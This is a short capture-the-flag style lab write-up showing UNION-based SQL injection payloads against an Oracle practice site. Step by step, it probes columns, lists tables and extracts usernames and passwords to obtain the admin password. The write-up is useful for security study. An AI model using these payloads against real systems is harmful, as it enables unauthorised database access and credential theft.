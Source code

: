 # Lab: SQL injection attack, listing the database contents on Oracle #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/39507b59-37b9-4c5d-8b35-2ec9521e9fd9)

## Target website ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/1a2b5fcd-f82b-4d85-917f-96eb3c103f24)

> We have intercetpted the request and we will modify category feild to get details and first column containing text for that we will use this paylaod 
  `'+UNION+SELECT+'abc','def'+FROM+dual--`
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/2dfe63e7-5613-4bd6-af3b-d03178aefb3b)

> So there 2 column containing string

> Now we get the no of tables database we use following payload `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/3a8da461-29f7-4e26-b343-08f0022f4c28)

> So it giving the no tables
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/eb2f74e2-1de2-4626-971c-dacab8c24c3a)

> When using '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_KVVPSP-- we discover another feild called PASSWORD_GMRIEL

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/69431ce4-b1b7-45b0-bbf5-c9b15caa7bf6)

> We can use '+UNION+SELECT+USERNAME_TPZMZN,+PASSWORD_GMRIEL+FROM+USERS_KVVPSP--

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ba087cb2-0e56-4a30-9c1b-77c5de3d305b)

> We admin password

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/7bf98b0b-e0f3-491f-80dd-08c820074a15)
**
